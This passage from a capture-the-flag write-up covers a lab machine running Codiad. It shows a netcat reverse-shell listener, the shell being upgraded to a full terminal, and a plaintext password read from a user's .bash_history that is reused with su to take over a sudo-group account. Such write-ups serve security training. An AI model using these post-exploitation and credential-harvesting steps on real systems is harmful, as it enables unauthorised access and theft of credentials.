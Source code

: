 lets upgrade shell,

```
ww-data@ide:/var/www/html/codiad/components/filemanager$ script /dev/null -c bash
<ad/components/filemanager$ script /dev/null -c bash      
Script started, file is /dev/null
www-data@ide:/var/www/html/codiad/components/filemanager$ ^Z
zsh: suspended  nc -lnvp 9112
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 9112
                               reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@ide:/var/www/html/codiad/components/filemanager$ 

```
ready to go, so you can use sudo,su, etc

---

## shell as  drac

looking around, i wanted to upload linpeas but i could not, so i decided to go manual looking for juicy file, then i found password under drac home bash history

```

www-data@ide:/var/www/html/codiad$ ls -la /home/drac/               
total 56
drwxr-xr-x 7 drac drac 4096 Sep 15 16:49 .
drwxr-xr-x 3 root root 4096 Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11  2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18  2021 .config
drwx------ 4 drac drac 4096 Jun 18  2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
drwx------ 2 drac drac 4096 Sep 15 15:51 .ssh
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
-rw-rw-r-- 1 drac drac    0 Sep 15 16:49 file
-rw-rw-r-- 1 drac drac    0 Sep 15 15:48 linpeas.sh
-r-------- 1 drac drac   33 Jun 18  2021 user.txt
www-data@ide:/var/www/html/codiad$ cat /home/drac/.bash_history     
mysql -u drac -p 'Th3dRaCULa1sR3aL'
www-data@ide:/var/www/html/codiad$ 

```
login as drac user, mysql password
```
www-data@ide:/var/www/html/codiad$ su drac
Password: 
drac@ide:/var/www/html/codiad$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:/var/www/html/codiad$ 

```
---

